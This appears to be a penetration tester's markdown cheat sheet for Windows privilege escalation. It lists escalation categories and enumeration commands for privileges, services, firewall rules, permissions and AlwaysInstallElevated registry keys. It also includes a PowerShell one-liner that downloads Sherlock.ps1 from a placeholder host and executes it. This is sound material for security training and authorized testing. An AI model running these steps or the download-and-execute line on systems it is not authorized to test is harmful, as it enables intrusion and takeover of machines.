 # Win_Priv_Esc_Method
Windows Privilege Escalation Methodology

# Categories
* Stored Credentials
* Windows Kernel Exploit
* DLL Injection
* Unattended Answer File
* Insecure File/Folder Permissions
* Insecure Service Permissions
* DLL Hijacking
* Group Policy Preferences
* Unquoted Service Path
* Always Install Elevated
* Token Manipulation
* Insecure Registry Permissions
* Autologon User Credential
* User Account Control (UAC) Bypass
* Insecure Named Pipes Permissions

## General
* systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"Processor(s)" /C:"System Locale" /C:"Input Locale" /C:"Domain" /C:"Hotfix(s)"
* WMIC CPU Get DeviceID,NumberOfCores,NumberOfLogicalProcessors

* whoami
* whoami /priv
  * SeDebugPrivilege
  * SeRestorePrivilege
  * SeBackupPrivilege
  * SeTakeOwnershipPrivilege
  * SeTcbPrivilege
  * SeCreateToken Privilege
  * SeLoadDriver Privilege
  * SeImpersonate & SeAssignPrimaryToken Priv.

* whoami /groups

* net user
* net user <user>

* netstat -ano
* ipconfig /all
* route print

* tasklist /SVC > tasks.txt
* schtasks /query /fo LIST /v > schedule.txt

* netsh advfirewall show currentprofile
* netsh advfirewall firewall show rule name=all


* wmic product get name, version, vendor > apps_versions.txt
* DRIVERQUERY
* mountvol

* accesschk-2008-vista.exe /accepteula
* accesschk-2008-vista.exe -uws "Everyone" "C:\Program Files"

* reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
* reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

## Windows Kernel Exploits
* systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"Processor(s)" /C:"System Locale" /C:"Input Locale" /C:"Domain" /C:"Hotfix(s)"
  * searchsploit 
  * google

* WMIC CPU Get DeviceID,NumberOfCores,NumberOfLogicalProcessors

* Windows-Exploit-Suggester
  * python windows-exploit-suggester.py --database 2020-08-09-mssb.xls --systeminfo grandpa.txt

* Serlock
  * Config: Add to the last line the "Find-AllVulns"
  * Download and run Sherlock:
     * echo IEX(New-Object Net.WebClient).DownloadString('http://<ip>:<port>/Sherlock.ps1') | powershell -noprofile -

* Watson
  * Find .NET latest version of victim:
     * dir %windir%\Microsoft.NET\Framework /AD     
   * Fow older than windows 10 download zip version of watson v.1: https://github.com/rasta-mouse/Watson/tree/486ff207270e4f4cadc94ddebfce1121ae7b5437
   * Build exe to visual studio
